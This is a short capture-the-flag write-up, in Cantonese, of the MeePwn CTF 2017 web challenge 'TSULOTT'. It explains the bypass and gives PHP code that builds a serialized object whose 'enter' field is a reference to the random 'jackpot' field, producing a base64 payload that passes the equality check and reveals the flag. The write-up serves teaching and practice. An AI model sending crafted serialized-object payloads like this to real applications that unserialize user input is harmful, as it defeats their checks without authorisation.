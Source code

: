 # MeePwn CTF 2017: TSULOTT 

### (web, 100 points, 161 team solved)

說明
>Who Wants to Be a Millionaire? Join My LOTT and Win JACKPOTTTT!!!
>Remote: 128.199.190.23:8001

## 題解
呢題好 hea. 所以咁鬼多人解到
入面俾你打個 serialized object. 之後 $obj->jackpot = 一堆隨機數字.
之後 if($obj->enter === $obj->jackpot){echo $flag}
你唔會走去估果D數係乜掛. 所以求其整到 $obj->enter = &$obj->jackpot 之後就解到.

```
<?php
class Object  
{  
  var $jackpot; 
  var $enter;  
} 

$obj = new Object;
$obj->enter = &$obj->jackpot;

echo serialize($obj);
echo "<hr />";
echo base64_encode(serialize($obj));
if($obj->enter === $obj->jackpot){echo "<hr>OK";}else{echo "<hr>PK";}
?>
```
唔好問我點解最後係 echo PK.

## 參考資料
http://php.net/manual/en/language.oop5.references.php

